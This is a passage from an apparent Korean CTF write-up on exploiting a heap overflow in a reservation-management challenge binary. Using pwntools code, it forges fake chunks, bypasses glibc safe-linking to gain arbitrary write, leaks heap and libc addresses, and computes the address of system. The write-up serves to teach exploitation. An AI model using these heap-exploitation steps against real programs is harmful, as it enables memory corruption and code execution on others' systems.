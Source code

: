> `create_reserv(6, b"\x00" * 0x8 + p64(0x21), p64(0))` 부분은 이후 libc를 leak하기 위해 또다른 fake chunk를 만드는 부분이다.
> 이걸 사용하는 시점부터는 이미 AAW이 가능하기 때문에 정확하게 이 위치를 청크로 사용할 수 있다.
{: .prompt-info}


이제 힙을 릭했으므로 좀 더 편하게 aaw 할 수 있는 `person` 배열로 힙을 할당해버리자.
그러기 위해서 마찬가지로 fake chunk를 만들어준다.


7. `reviewnum`을 증가시켜 0x21까지 키운다. 이렇게 되면, 할당자가 chunk size를 0x21가 맞다고 생각한다.
8. heap overflow를 이용해서 `reviewnum`쪽으로 fake chunk를 덮어쓴다.
9. 이제 index 1,2,3은 자유롭게 aaw 할 수 있는 청크가 된다.

```python
        leak = u64(p.recvuntil(b"\x0a\x70", drop=True).ljust(8, b"\x00"))
        heap_base = unsafe_link(leak) - 0x450
        print(f"[+] found heap base: {hex(heap_base)}")

        while review_cnt < 0x21:
            review_reserv()

        cancel_reserv(10)

        cancel_reserv(4)
        cancel_reserv(3)
        cancel_reserv(2)

        overwrite_nextheap(1, p64(0x21), p64(safelink(e.symbols["reviewnum"] - 0x8)))
        create_reserv(2, b"a", b"a")
        create_reserv(4, b"a", p64(0))  # person
        # I can control index 1, 2, 3 freely!
```


그러면 이제 aaw는 매우 간단하다.

```python
edit_reserv(4, p64(1), p64(ptr))
edit_reserv(1, data, p64(0))
```
이런식으로 해주면 된다.

조금만 더 작업해서 미리 만들어두었던 가짜 청크에 힙을 할당해서 릭을 해주기만 하면,

```python
        cancel_reserv(2)  # heap+0x3a0

        edit_reserv(4, p64(1), p64(heap_base + 0x3A0))
        edit_reserv(1, p64(safelink(heap_base + 0x420)), p64(2))
        create_reserv(2, b"a", b"a")
        create_reserv(3, b"L" * 0x10, b"L" * 8)
        p.recvuntil(b"LLLLLLLL")
        leak = u64(p.recvuntil(b"\x0a", drop=True).ljust(8, b"\x00"))
        libc = leak - 0x21ACE0'
        system = libc + le.symbols["system"]
```

